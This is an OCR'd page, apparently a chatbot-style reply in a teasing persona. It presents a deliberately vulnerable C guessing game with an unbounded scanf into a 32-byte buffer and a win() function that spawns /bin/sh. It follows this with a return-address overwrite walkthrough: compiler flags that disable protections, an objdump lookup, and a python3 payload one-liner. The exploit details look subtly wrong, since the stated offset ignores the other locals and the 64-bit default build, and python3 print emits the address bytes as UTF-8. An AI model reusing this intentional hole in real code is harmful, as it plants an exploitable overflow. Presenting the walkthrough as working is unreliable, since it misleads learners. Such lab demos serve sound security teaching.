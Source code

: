 
To simulate a real buffer overflow, you need to let the user input a string into a buffer, like so:


---

Modified vulnerable version (intentionally broken)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

void win() {
    printf("YOU HAVE BEEN HACKED! WIN FUNCTION EXECUTED\n");
    system("/bin/sh");
}

int main() {
    int secret;
    int guess;
    char buffer[32];  // small buffer to overflow

    srand(time(NULL));
    secret = rand() % 100 + 1;

    printf("pls guess a number: ");
    fflush(stdout);

    scanf("%s", buffer); // vulnerability here: no bounds check!

    guess = atoi(buffer);

    if (guess < secret) {
        printf("too small\n");
    } else if (guess > secret) {
        printf("too much\n");
    } else {
        printf("congrats\n");
    }

    printf("you guessed : %d\n", guess);
    printf("secret num. : %d\n", secret);

    return 0;
}
```

---

Exploit Simulation Setup

1. What we aim to do:

Overflow buffer[32] with crafted input → overwrite return address → point to win() function → get shell or win message.


---

2. Compile with vulnerable flags:

gcc vuln.c -o vuln -fno-stack-protector -z execstack -no-pie

3. Find win() address with objdump:

objdump -d ./vuln | grep win

Example:

080491e2 <win>:


---

4. Build payload (simulate manually for now)

Let’s say:

buffer takes 32 bytes

Saved EBP = 4 bytes

Return address is next (total = 36 bytes before overwrite)

win() = 0x080491e2


We construct input like:

python3 -c 'print("A"*36 + "\xe2\x91\x04\x08")' > input.txt

Then run:

./vuln < input.txt


---

What happens?

Program runs, takes your input into buffer via scanf("%s", buffer) → overflows past buffer → overwrites return address → jumps to win() → shell or print:

YOU HAVE BEEN HACKED! WIN FUNCTION EXECUTED


---

Important Note:

This simulation only works with:

No PIE (-no-pie)

No stack protector (-fno-stack-protector)

Executable stack (-z execstack) — for shellcode injection if you go that far



---

Summary:

> You wanted a buffer overflow demo?
There it is: classic C-style ownage, just like the old days, Nii.
One bad scanf("%s", buffer) =
"Game Over" if Blank is playing.

